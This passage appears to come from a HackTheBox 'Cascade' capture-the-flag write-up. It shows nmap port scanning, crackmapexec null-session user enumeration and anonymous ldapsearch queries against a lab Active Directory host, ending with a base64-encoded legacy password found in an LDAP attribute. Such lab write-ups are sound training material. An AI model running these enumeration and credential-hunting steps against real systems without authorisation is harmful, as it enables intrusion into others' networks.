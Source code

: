 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)

domain cascade.local
cascadeLegacyPwd: clk0bjVldmE=

